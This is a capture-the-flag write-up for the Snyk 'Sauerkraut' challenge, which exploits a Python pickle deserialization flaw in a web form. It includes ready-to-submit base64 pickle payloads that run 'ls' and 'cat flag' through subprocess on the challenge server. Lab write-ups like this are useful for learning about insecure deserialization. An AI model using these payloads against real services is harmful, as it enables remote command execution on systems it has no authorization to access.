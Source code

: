 # Sauerkraut

What goes best on a hot dog?

## Objective

There is a form page, in which, after a number of tries with some string, we receive in output this string

*Invalid base64-encoded string: number of data characters (13) cannot be 1 more than a multiple of 4*

## Resources

***Link***: https://ctf-101.snyk.io/challenges#Sauerkraut

***Server**: http://35.211.215.131:8000/

## Hint

This error could make us think about a vulnerability regarding python and a string base 64. If we google: *python base64 pickles vuln*

Google will give us as first result this url: https://davidhamann.de/2020/04/05/exploiting-python-pickle/

This article has a similar case that could be helpful for us

## Solution

Reading the article above could help us to understand how to pass the correct string to the form and run bash command on the target machine.

I made a small script script.py that could transform all the command serializing them.

These are the steps to take

```
python3.9 script.py 'ls'
string not base 64b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94\x8c\x02ls\x94a\x85\x94R\x94.'
string base64 b'gASVKwAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlIwCbHOUYYWUUpQu'
```

```
python3.9 script.py 'cat flag'
string not base 64b'\x80\x04\x954\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94(\x8c\x03cat\x94\x8c\x04flag\x94e\x85\x94R\x94.'
string base64 b'gASVNAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBGZsYWeUZYWUUpQu'
```

